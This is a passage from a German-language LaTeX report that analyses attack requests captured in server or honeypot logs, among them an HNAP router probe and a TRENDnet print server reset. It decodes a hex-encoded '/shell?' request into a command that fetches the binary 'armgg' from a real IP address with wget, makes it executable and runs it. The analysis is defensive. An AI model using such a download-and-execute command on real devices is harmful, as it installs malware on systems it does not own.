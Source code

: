 Auch ein einzelner Eintrag ist an dieser Stelle erwähnenswert, verdeutlicht er doch die Breite des Spektrums, in der Angriffe stattfinden: Der Zugriffsversuch '/HNAP1' zielt auf eine Schwachstelle\footnote{ \textit{Schwachstellen von HNAP}: \url{https://isc.sans.edu/forums/diary/More+on+HNAP+What+is+it+How+to+Use+it+How+to+Find+it/17648/}} in der Implementierung des Home Network Administration Protocols(HNAP) unter anderem bei D-Link\footnote{ \textit{D-Link}: \url{http://www.dlink.com/de/de}}, aber auch anderen Routern hin.\\ 

'./stssys.htm' zählt auch zu der Kategorie einzigartig. So handelt es sich bei dieser Anfrage um den Versuch eine Schwachstelle\footnote{ \textit{Schwachstelle TRENDnet Printserver}: \url{https://neonprimetime.blogspot.de/2016/08/stssyshtm-wget-request.html}} bei TRENDnet Printservern auszunutzen, mit der Folge das betroffene Gerät auf Werkseinstellungen zurücksetzen und somit die IP-Adresse des Gerätes neu zu vergeben.\\

Erst durch die Umwandlung von der hexadezimalen Schreibweise in ASCII offenbart sich 

\begin{lstlisting}[style=customc]
/shell?\%63\%64\%20\%2F\%74\%6D\%70\%3B\%77\%67\%65\%74\%20\%2D\%63\%20\%68\%74\%74\%70\%3A\%2F\%2F\%31\%32\%32\%2E\%31\%31\%34\%2E\%32\%35\%33\%2E\%39\%34\%3A\%31\%35\%35\%32\%31\%2F\%61\%72\%6D\%67\%67\%3B\%63\%68\%6D\%6F\%64\%20\%37\%37\%37\%20\%61\%72\%6D\%67\%67\%3B\%2E\%2F\%61\%72\%6D\%67\%67\%20\%26
\end{lstlisting}

 als das was er wirklich ist:
 
\begin{lstlisting}[style=customc]
cd /tmp;wget -c http://122.114.253.94:15521/armgg;chmod 777 armgg;./armgg \&
\end{lstlisting}

Über einen 'wget' wird versucht die Ressource 'armgg' von einer IP-Adresse herunterzuladen und gegebenenfalls unterbrochene Downloads, durch den Parameter '-c' für continue, fortzusetzen. 'armgg' soll durch 'chmod 777' von Jedermann gelesen, verändert oder ausgeführt werden können und daraufhin als Hintergrundprozess gestartet werden. Zu gegebener Zeit wird das Projektteam versuchen, diese Datei herunterzuladen und in einer gesicherten Umgebung betrachten.\\

Noch ausgefallener ist dieser Angriff:


